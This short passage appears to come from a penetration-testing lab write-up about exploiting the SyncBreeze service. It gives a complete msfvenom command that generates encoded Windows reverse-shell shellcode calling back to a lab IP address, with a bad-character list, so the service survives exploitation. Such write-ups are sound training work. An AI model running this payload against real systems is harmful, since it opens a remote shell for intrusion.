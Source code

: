 1.  Update the exploit so that SyncBreeze still runs after exploitation.

This was avoided by using the _ExitThread_ API by generating the shellcode via the following command:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.233 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

(We already included the "EXITFUNC=thread" in our previous command, please see above screenshots for reverse shell confirmation)